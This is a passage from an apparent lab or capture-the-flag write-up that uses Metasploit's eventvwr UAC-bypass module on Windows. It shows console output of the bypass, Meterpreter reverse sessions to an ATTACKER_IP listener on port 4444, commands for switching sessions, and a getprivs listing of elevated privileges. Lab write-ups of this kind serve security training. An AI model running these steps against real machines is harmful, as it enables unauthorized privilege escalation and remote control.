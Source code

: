 ```console
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175686 bytes) to MACHINE_IP
[*] Meterpreter session 2 opened (ATTACKER_IP:4444 -> MACHINE_IP:49260) at 2022-10-26 20:41:23 +0330
[*] Cleaning up registry keys ...
```

This created a new session (session: 2) which we can now use to do whatever we need to do. 

There's some questions along the way that're quite obviously answered, but here's the answers just in case:

> Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?\
> > LHOST

```console
msf6 exploit(windows/local/bypassuac_eventvwr) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  ATTACKER_IP:4444 -> MACHINE_IP:4922
                                                             3 (MACHINE_IP)
  2         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  ATTACKER_IP:4444 -> MACHINE_IP:4926
                                                             0 (MACHINE_IP)
```

In case you haven't yet got a `meterpreter >` prompt up, but have a new session available, you can bring it to foreground using `sessions -i 2` or `sessions 2`:

```console
msf6 exploit(windows/local/bypassuac_eventvwr) > sessions -i  2
[*] Starting interaction with 2...

meterpreter > 
```

We can now view our privilages by executing `getprivs`:

```console
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
```